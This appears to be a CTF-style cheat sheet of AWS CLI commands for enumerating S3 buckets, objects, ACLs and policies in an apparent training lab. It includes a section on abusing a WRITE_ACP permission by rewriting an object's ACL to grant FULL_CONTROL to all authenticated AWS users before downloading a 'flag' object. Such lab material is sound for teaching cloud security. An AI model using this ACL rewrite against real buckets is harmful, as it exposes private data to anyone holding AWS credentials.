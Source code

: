 Access key = long term creds for IAM or root account  
with access and secret key:  

### List S3 buckets.
`aws s3api list-buckets`  

### Check bucket location.  
Command: `aws s3api get-bucket-location --bucket data-extractor-repo`  

### Enumerate bucket objects  
Commands:  
`aws s3api list-objects-v2 --bucket data-extractor-repo`  
`aws s3api list-objects --bucket file-uploader-saved-files`  
`aws s3 ls s3://s3-file-load-138431686808`  

### Check object versions.
Command: `aws s3api list-object-versions --bucket data-extractor-repo`  

### Check bucket ACLs and objects ACLs.  
Commands:  
`aws s3api get-bucket-acl --bucket file-uploader-saved-files`  
`aws s3api get-object-acl --bucket file-uploader-saved-files --key flag`  
## Abuse ACL (WRITE_ACP) on object EG you can list object but not copy/download.
`aws s3api get-object-acl --bucket <bucekt-name> --key flag > objacl.json`
we see we have WRITE_ACP: `"Permission": "WRITE_ACP"`
We can add below in file (Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved):
```        
{
            "Grantee": {
                "Type": "Group",
                "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
            },
            "Permission": "FULL_CONTROL"
        }
```
And now reopload the policy:
`aws s3api put-object-acl --bucket s3-secret-771616743370 --key flag --access-control-policy file://objacl.json`  



### Download objects from the S3 bucket.
Commands:
`aws s3 cp s3://file-uploader-saved-files/flag`  

### Get bucket policy and beautify the output.
Command: `aws s3api get-bucket-policy --bucket insecurecorp-code --output text | python -m json.tool`  

### Check the public access block for a bucket.
Command: aws s3api get-public-access-block --bucket data-extractor-repo

### Check if a static website is available in the browser.  
URL: `<bucket-name>.s3-website-<region>.amazonaws.com`  


AWS CLI (https://docs.aws.amazon.com/cli/latest/reference/)
